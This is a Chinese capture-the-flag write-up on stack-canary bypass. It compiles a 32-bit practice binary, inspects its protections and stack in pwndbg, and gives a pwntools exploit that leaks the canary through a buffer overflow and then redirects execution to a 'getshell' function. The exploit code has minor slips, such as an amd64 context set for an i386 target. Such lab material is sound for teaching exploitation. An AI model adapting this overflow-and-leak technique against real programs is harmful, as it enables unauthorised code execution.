 编译：

```
gcc -m32 -no-pie -g -o canary1 canary1.c
```

查看保护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec canary1
[*] '/home/dililearngent/Desktop/CTF/pwn/stack/canary/canary1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

首先gdb调试一下，由于buf只有100，在readline发送时会加上0a，所以这里输入的时候输入99个a，这样就不会将0a溢出至canary

```
pwndbg> stack 50
00:0000│ esp 0xffffcf30 —▸ 0xf7fb2d20 (_IO_2_1_stdout_) ◂— 0xfbad2887
01:0004│     0xffffcf34 ◂— 0x0
02:0008│ ecx 0xffffcf38 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
... ↓        23 skipped
1a:0068│     0xffffcf98 ◂— 'aaa\n'
1b:006c│     0xffffcf9c ◂— 0xd2b3ec00                         //canary
1c:0070│     0xffffcfa0 —▸ 0x804a010 ◂— 'Hello Hacker!'
1d:0074│     0xffffcfa4 —▸ 0x804c000 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804bf08 (_DYNAMIC) ◂— 0x1
1e:0078│ ebp 0xffffcfa8 —▸ 0xffffcfb8 ◂— 0x0
1f:007c│     0xffffcfac —▸ 0x804936d (main+58) ◂— 0xb8
20:0080│     0xffffcfb0 —▸ 0xffffcfd0 ◂— 0x1
```

可以发现每次进程启动的canary值都不一样；现在需要将canary的值泄露出来，因为这里存在栈溢出和格式化字符串漏洞，这样可以将canary当作buf的一部分进行输出

构造exp：

```
#-*- codingLutf-8 -*-
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./canary1')
e = ELF('./canary1')
get_shell = e.sym['getshell']
#1 leak canary
p.recvuntil('Hello Hacker!')
payload = 'a'*100
p.sendline(payload)

p.recvuntil('a'*100)
canary = u32(p.recv(4))-0xa
log.info("Canary:"+hex(canary))

#bypass canary
payload = 'a'*100+p32(canary)+'a'*8+'a'*4+p32(get_shell)
p.sendline(payload)
p.interactive()
```
